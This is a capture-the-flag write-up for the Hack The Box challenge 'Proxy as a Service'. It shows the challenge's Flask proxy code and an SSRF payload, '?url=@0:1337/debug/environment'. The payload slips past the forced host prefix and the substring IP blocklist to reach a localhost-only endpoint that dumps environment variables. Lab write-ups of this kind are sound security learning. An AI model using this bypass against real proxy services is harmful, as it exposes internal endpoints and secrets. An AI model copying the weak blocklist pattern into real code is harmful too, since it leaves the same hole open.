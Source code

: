 # Proxy as a Service HTB Challenge 

__________________________________________

From The source code it'll be very clear where is the vulnerability and what we have to do to exploit:
#### util.py
In this script we can see the restricted urls and the "is_from_localhost" function we need to bypass
```python
from flask import request, abort
import functools, requests

RESTRICTED_URLS = ['localhost', '127.', '192.168.', '10.', '172.']

def is_safe_url(url):
    for restricted_url in RESTRICTED_URLS:
        if restricted_url in url:
            return False
    return True

def is_from_localhost(func):
    @functools.wraps(func)
    def check_ip(*args, **kwargs):
        if request.remote_addr != '127.0.0.1':
            return abort(403)
        return func(*args, **kwargs)
    return check_ip

def proxy_req(url):    
    method = request.method
    headers =  {
        key: value for key, value in request.headers if key.lower() in ['x-csrf-token', 'cookie', 'referer']
    }
    data = request.get_data()

    response = requests.request(
        method,
        url,
        headers=headers,
        data=data,
        verify=False
    )

    if not is_safe_url(url) or not is_safe_url(response.url):
        return abort(403)
    
    return response, headers
```
#### Dockerfile
In dockerfile we can understand we need to get to the /environment to get the flag.
```
....
# Place flag in environ
ENV FLAG=HTB{f4k3_fl4g_f0r_t3st1ng}

# Run supervisord
CMD ["/usr/bin/supervisord", "-c", "/etc/supervisord.conf"]

```


#### routes.py

The endpoint to reach is /debug/environment and we will do it from the "url" parameter.
```python
from flask import Blueprint, request, Response, jsonify, redirect, url_for
from application.util import is_from_localhost, proxy_req
import random, os

SITE_NAME = 'reddit.com'

proxy_api = Blueprint('proxy_api', __name__)
debug     = Blueprint('debug', __name__)


@proxy_api.route('/', methods=['GET', 'POST'])
def proxy():
    url = request.args.get('url')

    if not url:
        cat_meme_subreddits = [
            '/r/cats/',
            '/r/catpictures',
            '/r/catvideos/'
        ]

        random_subreddit = random.choice(cat_meme_subreddits)

        return redirect(url_for('.proxy', url=random_subreddit))
    
    target_url = f'http://{SITE_NAME}{url}'
    response, headers = proxy_req(target_url)

    return Response(response.content, response.status_code, headers.items())

@debug.route('/environment', methods=['GET'])
@is_from_localhost
def debug_environment():
    environment_info = {
        'Environment variables': dict(os.environ),
        'Request headers': dict(request.headers)
    }

    return jsonify(environment_info)
```
## Bypass

If we go tu http://127.0.0.1:1337/?url=/ we will be redirect to a reddit page and whatever we look for after the "/", it's always going to reddit!

After trying different bypasses method i found that `?url=@0:1337/debug/environment`
- **@** bypass the redirection
- **0:1337** bypass the "RESTRICTED_URLS" restriction

Do You Want the flag?
Go to:
```
http://127.0.0.1:1337/?url=@0:1337/debug/environment
```

